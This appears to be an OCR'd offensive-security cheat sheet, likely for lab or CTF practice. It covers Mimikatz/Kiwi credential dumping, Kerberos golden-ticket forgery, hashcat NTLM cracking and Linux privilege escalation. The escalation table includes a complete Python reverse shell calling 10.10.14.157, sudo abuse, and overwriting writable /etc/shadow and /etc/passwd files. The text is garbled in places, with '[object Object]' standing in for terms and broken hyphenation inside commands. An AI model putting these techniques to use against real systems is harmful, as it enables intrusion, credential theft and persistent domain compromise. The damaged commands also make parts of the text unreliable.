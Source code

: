 ** This provides us with a session number which can be used in combin­ation with another exploit to escalate privil­edges

Mimikatz (password dumping tool)

**#load kiwi (Kiwi is the updated version of Mimikatz) [object Object] (Kiwi is the updated version of Mimikatz)

** Expanded the options use #help to view them

Mimikatz allows us to create what's called a [object Object], allowing us to authen­ticate anywhere with ease.

**golden_ticket_create

**Golden ticket attacks are a function within Mimikatz which abuses a component to Kerberos (the authen­tic­ation system in Windows domains), the ticket­-gr­anting ticket. In short, golden ticket attacks allow us to maintain persis­tence and authen­ticate as any user on the domain.

Windows NTLM hash crack
hashcat -a 0 -m 1000 crack.hash /usr/s­har­e/w­ord­lis­ts/­roc­kyo­u.txt

### Privilege escalation

|     |     |
| --- | --- |
| Usage | Syntax |
| C program | make <.c progra­m> then ./ to execute |
| SCP (secure copy files) from local to remote machine | scp <fi­len­ame> userna­me@­ip:­<lo­cat­ion> |
| Python server | ** python3 -m http.s­erver |
| Unix info about your specific Linux distri­bution | ** lsb_re­lease -a ** uname -a |
| Use echo " text " into file | ** echo "­tex­t" > output.txt |
| Python reverse shell with newline char | ** python -c 'import socket­,su­bpr­oce­ss,­os;­s=s­ock­et.s­oc­ket­(so­cke­t.A­F_I­NET­,so­cke­t.S­OCK­_ST­REA­M);­s.c­onn­ect­(("1­0.1­0.1­4.1­57",­123­5))­;os.du­p2(­s.f­ile­no(­),0); os.dup­2(s.fi­len­o(),1); os.dup­2(s.fi­len­o()­,2)­;p=­sub­pro­ces­s.c­all­(["/­bin­/sh­"­,"-i­"]);' |
| View Cronjobs | ** cat /etc/c­rontabs |
| Exploiting sudo -l user NOPASSWD: ALL | ** sudo -i -u <us­er> |
| Sudo knowledge | ** su asks for the password of the user "­roo­t".<br>** sudo asks for your own password (and also checks if you're allowed to run commands as root, which is configured through /etc/s­udoers -- by default all user accounts that belong to the "­adm­in" or "­sud­o" groups are allowed to use sudo).<br>** sudo -s launches a shell as root, but doesn't change your working directory. sudo -i simulates a login into the root account: your working directory will be /root, and root's .profile etc. will be sourced as if on login. |
| Sudo -l (explo­iting sudo rights) | ** Super User Do root privilege task<br>**  [https:­//w­ww.h­ac­kin­gar­tic­les.in­/li­nux­-pr­ivi­leg­e-e­sca­lat­ion­-us­ing­-ex­plo­iti­ng-­sud­o-r­ights/](https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/) |
| After SSH | ** |
| id  | ** id command in Linux is used to find out user and group names and numeric ID's (UID or group ID) of the current user or any other user in the server |
| id shows 108(lxd) | **  [LXD privilege escalation](https://www.hackingarticles.in/lxd-privilege-escalation/) |
| Weak File Permission | ls -l <fi­le> : Check Permis­sions |
| Readable /etc/s­hadow | ** Crack the passwd, SHA-512 |
| Writeable /etc/s­hadow | ** Create and replace the passwd, mkpasswd -m sha-512 newpas­swo­rdhere |
| Writeable /etc/p­asswd | ** Create and replace the passwd, openssl passwd newpas­swo­rdhere |

